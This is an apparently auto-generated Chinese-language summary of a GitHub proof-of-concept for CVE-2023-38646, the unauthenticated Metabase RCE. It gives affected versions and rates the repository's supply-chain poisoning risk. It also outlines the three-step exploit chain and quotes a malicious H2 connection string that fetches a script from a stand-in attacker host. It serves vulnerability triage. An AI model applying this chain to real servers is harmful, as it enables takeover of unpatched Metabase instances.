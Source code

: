 ## CVE-2023-38646-Metabase-RCE

**漏洞编号:** CVE-2023-38646

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Metabase

**危害等级:** 高危，无需身份验证即可远程执行任意代码

**影响版本:** < 0.46.6.1 和 Metabase Enterprise < 1.46.6.1

**利用条件:** 目标Metabase实例可以通过HTTP访问，且未进行身份验证配置。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-38646 漏洞允许未经身份验证的攻击者在 Metabase 服务器上执行任意命令。根据漏洞信息和搜索结果，该漏洞利用了 Metabase 处理数据库连接的方式，特别是 H2 数据库。提供的 POC 脚本首先获取 setup token，然后创建一个管理员账户，最后添加一个恶意的数据库连接，该连接包含一个 H2 连接字符串，其中包含嵌入式命令，允许攻击者执行任意系统命令。连接字符串中的 `INIT=RUNSCRIPT FROM 'http://attacker-server.com/poc.sql'` 指示 H2 从远程服务器执行 SQL 脚本，虽然 `poc.sql` 文件本身无害，但真正的攻击载荷嵌入在连接字符串本身，利用 `CREATE ALIAS` 创建一个Java函数,从而执行系统命令。\n\n**利用方式：**\n1. **获取 Setup Token:**  通过访问 `/api/session/properties` 获取初始设置所需的 token。\n2. **设置管理员账户:**  使用获取的 token，调用 `/api/setup` 创建一个新的管理员账户。这将创建一个具有必要权限的会话。\n3. **添加恶意数据库连接:** 使用新创建的管理员会话，调用 `/api/database` API 添加一个新的数据库。关键在于构造恶意的 H2 连接字符串，利用 `INIT` 参数执行远程 SQL 脚本，该脚本定义了一个 Java 函数来执行系统命令。为了绕过某些限制，通常利用 `CREATE ALIAS` 创建Java函数,从而执行系统命令。\n\n**有效性：** 提供的 PoC 代码是有效的，它能够利用该漏洞在 Metabase 实例上执行任意代码，如果目标实例的版本低于受影响的版本。\n\n**投毒风险：** 风险为10%，主要风险在于 `exploit.py` 文件中`YOUR_GITPOD_WORKSPACE_URL` 如果不是攻击者自己的服务器，存在被中间人攻击替换连接的风险. 虽然`poc.sql`目前仅仅是 `SELECT 1;`， 但是如果有人恶意修改`poc.sql`，则存在被投毒风险。 start.sh中的metabase.jar来源可能被篡改，存在被投毒风险。

**项目地址:** [BreezeGalaxy/CVE-2023-38646](https://github.com/BreezeGalaxy/CVE-2023-38646)

**漏洞详情:** [CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)